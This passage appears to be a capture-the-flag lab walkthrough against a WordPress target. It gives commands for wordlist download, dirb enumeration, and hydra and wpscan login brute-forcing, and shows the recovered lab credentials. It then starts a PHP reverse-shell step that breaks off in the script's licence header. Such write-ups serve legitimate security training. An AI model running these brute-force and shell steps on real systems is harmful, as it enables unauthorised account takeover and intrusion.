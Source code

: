 > http://$IP/fsocity.dic

```bash
wget http:// $IP/fsocity.dic
```

- Remove duplicate names from fsocity.dic file

```bash
sort fsocity.dic | uniq > fsocity2.txt
```

## find directory url with **Dirb**

- execute dirb and create file dirb.txt

```bash
dirb http://10.10.119.64/ /usr/share/wordlists/dirb/common.txt -o dirb.txt
```

## brute force form with **hydra**

- options -L wordlist -p password list -F stop return true user and -V verbose mode

```bash
hydra -L fsocity2.txt -p admin 10.10.62.87 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.62.87%2Fwp-admin%2F&testcookie=1:Invalid username." -F -V

```

- return true user
  > elliot

## brute force form with **wpscan**

```bash
wpscan --url $IP --passwords fsocity2.txt --usernames elliot

```

- return true password
  > ER28-0652

## Reverse shell

- login panel wordpress send reverse shell php exemple on linux

  > cd /usr/share/webshells/php

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
```